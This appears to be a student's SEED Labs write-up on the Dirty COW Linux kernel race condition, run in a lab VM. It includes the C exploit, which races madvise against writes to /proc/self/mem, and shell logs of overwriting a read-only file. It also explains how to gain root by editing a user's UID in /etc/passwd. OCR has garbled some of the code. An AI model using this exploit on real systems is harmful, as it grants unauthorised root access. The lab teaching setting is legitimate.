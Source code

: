 
# SEEDlabs: Dirty COW Attack Lab

#### Ozgur Ural
#### Student ID: 2564455

## 1 Lab Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the  Linux  kernel  since  September  2007,  and  was  discovered  and  exploited  in  October  2016. The vulnerability affects all Linux-based operating systems, including Android, and its consequence is very severe: attackers can gain the root privilege by exploiting the vulnerability. The  vulnerability  resides  in  the  code  of  copy-on-write  inside  Linux  kernel.  By  exploiting  this vulnerability, attackers can modify any protected file, even though these files are only readable to them.

The objective of this lab is for you to gain the hands-on experience on the Dirty COW attack, understand the race condition vulnerability exploited by the attack, and gain a deeper understanding  of  the  general race condition security  problems.  In  this  lab, you will  exploit the Dirty COW race condition vulnerability to gain the root privilege. Note:  This  lab  is  based  on  the  Ubuntu12.04  VM.  If  you  are  currently  using  a  newer  Linux version,  such  as  Ubuntu16.04,  the  vulnerability  has  already  been  patched.  Therefore, to complete this lab please use the Ubuntu 12.04 VM.

## 2 Task 1: Modify a Dummy Read-Only File
The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

## 2.1 Create a Dummy File
We first need to select a target file. Although this file can be any read-only file in the system, we will use a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please create a file called zzz in the root directory using the root account, change its permission  to  read-only for normal users, and put some random content into the file using an editor such as gedit.

```sh
$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz 111111222222333333
$ ls -l /zzz
$ -rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
$ bash: /zzz: (*@Permission denied@*)
```

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail, because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the system, we can find a way to write to this file. Our objective is to replace the pattern "222222" with "******".


I followed the steps above as you can see below. 
```sh
[11/27/21]seed@VM:~$ setxkbmap tr
[11/27/21]seed@VM:~$ sudo touch /zzz
[11/27/21]seed@VM:~$ sudo chmod 644 /zzz
[11/27/21]seed@VM:~$ sudo gedit /zzz
[11/27/21]seed@VM:~$ ls -l /zzz
-rw-r--r-- 1 root root 19 Nov 27 18:49 /zzz
[11/27/21]seed@VM:~$ echo 99999 > /zzz
bash: /zzz: Permission denied
```


## 2.2 Set Up the Memory Mapping Thread

You  check  the  program  cow  attack.c  for  this  lab.  The  program  has  three  threads:  the  main 
thread, the write thread, and the madvise thread. The main thread maps /zzz to memory, finds 
where  the  pattern  "222222"  is,  and  then  creates  two  threads  to  exploit  the  Dirty  COW  race 
condition vulnerability in the OS kernel.

```sh
/* cow_attack.c (the main thread) */
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>
#define OFFSET 5
#define TARGET_CONTENT " I have successfully Attacked!! "
void *map;
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  // Open the file in read only mode. int 
  f=open("/zzz", O_RDONLY);
  // Open with PROT_READ.
  fstat(f, &st);
  map=mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, NULL); (*@Line 1@*)
  pthread_create(&pth2, NULL, writeThread, TARGET_CONTENT); (*@Line 2@*)
  // Wait for the threads to finish. 
  pthread_join(pth1, NULL); 
  pthread_join(pth2, NULL);
  return 0;
}
```
In the above code, we start two threads: madviseThread (Line À) and writeThread (Line `)

The attack is successful as you can see below.

```sh
[11/27/21]seed@VM:~$ sudo gedit cow_attack.c
[11/27/21]seed@VM:~$ gcc attack.c -lpthread
[11/27/21]seed@VM:~$ a.out
[11/27/21]seed@VM:~$ cat /zzz
111111******333333
```

## 2.3 Set Up the write Thread

The job of the write thread listed in the following is to replace the string "222222" in the memory 
with  "******".  Since  the  mapped  memory  is  of  COW  type,  this  thread  alone  will  only  be  able  to 
modify the contents in a copy of the mapped memory, which will not cause any change to the 
underlying /zzz file.

```sh
/* cow_attack.c (the write thread) */
void * writeThread(void *arg)
{
  char *content= (char*) arg;
  char current_content[10];
  int f=open("/proc/self/mem", O_RDWR); while(1) 
  {
    //Set the file pointer to the OFFSET from the beginning lseek(f, (uintptr_t) 
    map + OFFSET, SEEK_SET); write(f, content, strlen(content));
  }
}
```

## 2.4 The madvise Thread

The madvise thread does only one thing: discarding the private copy of the mapped memory, so 
the page table can point back to the original mapped memory.

```sh
/* cow_attack.c (the madvise thread) */
void *madviseThread(void *arg)
{
  while(1){
    madvise(map, 100, MADV_DONTNEED);
  }
}
```

## 2.5 Launch the Attack

If the write() and the madvise() system calls are invoked alternatively, i.e., one is invoked only 
after the other is finished, the write operation will always be performed on the private copy, and 
we  will  never  be  able  to  modify  the  target  file.  The  only  way  for  the  attack  to  succeed  is  to 
perform the madvise() system call while the write() system call is still running. We cannot always 
achieve that, so we need to try many times. As long as the probability is not extremely low, we 
have  a  chance.  That  is  why  in  the  threads,  we  run  the  two  system  calls  in  an  infinite  loop. 
Compile the cow attack.c and run it for a few seconds. If your attack is successful, you should 
be able to see a modified /zzz file. Report your results in the lab report and explain how you are 
able to achieve that.

```sh
$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...
```

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose 
the  /etc/passwd  file  as  our  target  file.  This  file  is  world-readable,  but  non-root  users  cannot 
modify it. The file contains the user account information, one record for each user. Assume that 
our user name is seed . The following lines show the records for root and seed:

```sh
root:x:0:0:root:/root:/bin/bash 
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash
```

Each  of  the  above  record  contains  seven  colon-separated  fields.  Our  interest  is  on  the  third 
field,  which  specifies  the  user  ID  (UID)  value  assigned  to  a  user.  UID  is  the  primary  basis  for 
access control in Linux, so this value is critical to security. The root user’s UID field contains a 
special value 0; that is what makes it the superuser, not its name. Any user with UID 0 is treated 
by the system as root, regardless of what user name he or she has. The seed user’s ID is only 
1000, so it does not have the root privilege. However, if we can change the value to 0, we can 
turn it into root. We will exploit the Dirty COW vulnerability to achieve this goal.
In our experiment, we will not use the seed account, because this account is used for most of 
the  experiments  in  this  book;  if  we  forget  to  change  the  UID  back  after  the  experiment,  other 
experiments will be affected. Instead, we create a new account called charlie, and we will turn 
this normal user into root using the Dirty COW attack. Adding a new account can be achieved 
using  the  adduser  command.  After  the  account  is  created,  a  new  record  will  be  added  to 
/etc/passwd. See the following:

```sh
$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie 
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash
```

We suggest that you save a copy of the /etc/passwd file, just in case you make a mistake and 
corrupt  this  file.  An  alternative  is  to  take  a  snapshot  of  your  VM  before  working  on  this  lab,  so 
you can always roll back if the VM got corrupted.
Task:  You  need  to  modify  the  charlie’s  entry  in  /etc/passwd,  so  the  third  field  is  changed  from 
1001  to  0000,  essentially  turning  charlie  into  a  root  account.  The  file  is  not  writable  to  charlie, 
but  we  can  use  the  Dirty  COW  attack  to  write  to  this  file.  You  can  modify  the  cow  attack.c 
program from Task 1 to achieve this goal.
After your attack is successful, if you switch user to charlie, you should be able to see the # sign 
at the shell prompt, which is an indicator of the root shell. If you run the id command, you should 
be able to see that you have gained the root privilege.

```sh
seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
(uid=0(root)) gid=1001(charlie) groups=0(root),1001(charlie)
```

